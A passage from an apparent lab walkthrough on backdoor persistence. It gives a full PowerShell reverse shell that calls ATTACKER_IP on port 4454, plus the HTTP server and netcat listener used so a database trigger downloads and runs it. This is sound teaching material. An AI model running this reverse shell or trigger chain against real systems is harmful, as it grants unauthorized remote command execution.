 Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

-   The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
-   The second connection will be a reverse shell on port 4454 back to our attacker machine.

AttackBox

```shell-session
user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

 

AttackBox

```shell-session
user@AttackBox$ nc -lvp 4454
Listening on 0.0.0.0 4454
```

With all that ready, let's navigate to `http://10.10.3.246/` and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.

